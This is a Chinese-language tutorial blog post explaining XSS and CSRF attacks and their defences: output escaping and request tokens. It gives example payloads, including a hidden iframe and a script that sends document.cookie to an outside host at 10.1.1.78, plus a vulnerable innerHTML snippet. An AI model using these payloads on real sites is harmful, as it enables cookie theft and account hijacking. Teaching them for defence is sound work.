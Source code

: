 ```yaml
---
title: 关于XSS（跨站脚本攻击）和CSRF（跨站请求伪造）
tags: Network security
---
```


简述XSS原理并举例说明

<!--more-->

# XSS
XSS(Cross-site scripting)，跨站脚本攻击，是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript)，当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的。比如获取用户的Cookie，导航到恶意网站，携带木马等。

# 工作原理
恶意web用户将代码植入到提供给其它用户使用的页面中，如果程序没有经过过滤或者过滤敏感字符不严密就直接输出或者写入数据库。合法用户在访问这些页面的时候，程序将数据库里面的信息输出，这些恶意代码就会被执行。

# XSS漏洞的分类

1.本地利用漏洞，这种漏洞存在于页面中客户端脚本自身；
2.反射式漏洞，这种漏洞和类型A有些类似，不同的是Web客户端使用Server端脚本生成页面为用户提供数据时，如果未经验证的用户数据被包含在页面中而未经HTML实体编码，客户端代码便能够注入到动态页面中；
3.存储式漏洞，该类型是应用最为广泛而且有可能影响到Web服务器自身安全的漏洞，骇客将攻击脚本上传到Web服务器上，使得所有访问该页面的用户都面临信息泄漏的可能，其中也包括了Web服务器的管理员。

# XSS攻击的危害

1.盗取用户cookie；
2.盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号；
3.控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力；
4.盗窃企业重要的具有商业价值的资料；
5.强制发送电子邮件；
6.网站挂马；

# XSS攻击举例

## 例子1——最简单的脚本插入（存储式跨站漏洞）

```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
</head>
<body>
<p><script>alert("OK")</script></p>
</body>
</html>
```

## 例子2——插入恶意网站（存储式跨站漏洞）

```
<iframe src="http://www.baidu.com" width="0" height="0" ></iframe>
```

## 例子3——窃取用户cookie（存储式跨站漏洞）

```
<script>document.write("<iframe width=0 height=0 src='http://10.1.1.78/cookie.asp?cookie="+document.cookie+"'></iframe>");</script>
```
虽然浏览器默认禁止了跨域访问，但并不禁止在页面中引用其他域的JS文件，并可以自由执行引入的JS文件中的function（包括操作cookie、Dom等等）。根据这一点，可以方便地通过创建script节点的方法来实现完全跨域的通信。

## 例子4——窃取用户cookie（基于网页DOM结构的攻击）

```html
<body>
<div id="t"></div>
<input type="text" id="text" value="" />
<input type="button" id="s" value="write" onclick=test() />
<script>
function test(){
var str=document.getElementById("text").value;
document.getElementById("t").innerHTML="<a href='"+str+"''>test</a>";
}
</script>
</body>
```

# XSS防范——转义

用户输入总是不可信任的
- 对用户的输入信息转义，JS转义一般用于显示用户输入的时候
- 当动态生成的链接地址需要赋值给href或者src属性时，需要对这些地址进行URL转义。当然，如果服务端支持在URL中包含UTF-8的字符的话，其实不转义也不会错，这就是为什么我们平时不会太注意对表单和URL参数进行转义的原因，因为服务端表现良好。
- 似乎很多 Web 开发框架、模版引擎的开发者也发现了这一点，Django 内置模版和 Jinja2 模版总是默认转义输出变量的。如果使用了某款模版引擎，那么其必自带了方便快捷的转义方式。
- 在既要允许用户输入HTML，又要过滤其脚本的情况下，可以使用 Tidy 等 HTML 清理库，但要小心使用。对于复杂情况，可以使用简单方法处理——白名单重新整理

# CSRF
CSRF(Cross-site request forgery)，跨站请求伪造，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。

# 防范——过滤请求的处理者

1、改良API设计，对于发布这一类创建资源的操作只接受POST请求，而GET请求应该只浏览而不改变服务器端资源。
2、请求令牌，首先服务器端要以某种策略生成随机字符串，作为令牌（token），保存在 Session 里。然后在发出请求的页面，把该令牌以隐藏域一类的形式，与其他信息一并发出。在接收请求的页面，把接收到的信息中的令牌与 Session 中的令牌比较，只有一致的时候才处理请求，否则返回 HTTP 403 拒绝请求或者要求用户重新登录验证身份。
使用请求令牌注意：
- 虽然请求令牌原理和验证码有相似之处，但不应该像验证码一样，全局使用一个 Session Key。因为请求令牌的方法在理论上是可破解的，破解方式是解析来源页面的文本，获取令牌内容。
- 在 ajax 技术应用较多的场合，因为很有请求是 JavaScript 发起的，使用静态的模版输出令牌值或多或少有些不方便。但无论如何，请不要提供直接获取令牌值的 API。这么做无疑是锁上了大门，却又把钥匙放在门口，让我们的请求令牌退化为同步令牌。


